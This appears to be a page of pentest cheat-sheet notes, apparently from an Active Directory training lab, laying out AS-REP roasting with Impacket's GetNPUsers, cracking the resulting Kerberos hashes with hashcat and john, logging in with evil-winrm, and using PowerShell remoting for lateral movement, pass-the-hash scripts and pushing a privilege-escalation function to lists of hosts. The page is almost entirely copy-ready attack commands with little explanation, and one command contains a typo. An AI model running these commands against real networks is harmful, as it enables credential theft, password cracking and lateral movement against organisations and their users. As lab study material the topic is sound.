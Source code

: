```bash
date
# ON WINDOWS
date
# ON LINUX
date -s "TIME OF DC"
```

## AS-REP Roasting:
- This attack is used for users that do not need preauthentication in kerberos
```bash
GetNPUsers.py -dc-ip "IP ADDRESS" -request "'DOMAIN/'" -format hashcat
```
- Also can be done using a username list 
```bash
for user in $(cat users.txt); do GetNPUsers.py -no-pass -dc-ip "IP ADDRESS" "DOMAIN"/${user} -format hashcat | grep -v Impacket; done
```
- We can then crack it using hashcat or john
```bash
hashcat -m 18200 hash.txt ~/Desktop/rockyou.txt --force
hashcat -m 18200 hash.txt ~/Desktop/rockyou.txt -r /usr/share/hashcat/rules/InsidePro-PasswordsPro.rule 
john --format=krb5asrep -w=~/Desktop/rockyou.txt hash.txt
```

## Evil-WinRM:
- If we have password and username for a user or service account, with winrm enabled, we can use this to login
```bash
evil-winrm -u "USERNAME" -p "PASSWORD" -i "IP ADDRESS"
```

## Powershell Remoting
- We can use powershell remoting to do lateral movement
- We can use interactive session with
```bash
$sess = New-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
Enter-PSSession $sess
```
- We can use non interactive session with
```bash
Invoke-Command -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local -ScriptBlock{whoami;hostname}
```
- If we want to run it against all the servers in a machine which is very helpful
```bash
Invoke-Command -ScriptBlock{Get-Process} -ComputerName (Get-Content list.txt)
```
- We can also use it for pass the hash attacks
```bash
Invoke-Command -FilePath C:\scripts\Get-PassHash.ps1 -ComputerName (Get-Content list.txt)
```
- We can also use this to pass locally loaded function over but it may not work if the target has appropriate protections in place
```bash
Invoke-Command -ScriptBlock${function:Invoke-Privesc} -ComputerName (Get-Content list.txt)
# OR To check arguments
Invoke-Command -ScriptBlock${function:Invoke-Privesc} -ComputerName (Get-Content list.txt) -ArgumentList
```
- In interactive sessions, we can also use this using
```bash
$sess = New-PSSesion -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
Invoke-Command -FilePath C:\scripts\hello.ps1 -Session $sess
# Then when we log into the session interactively we can use that function
```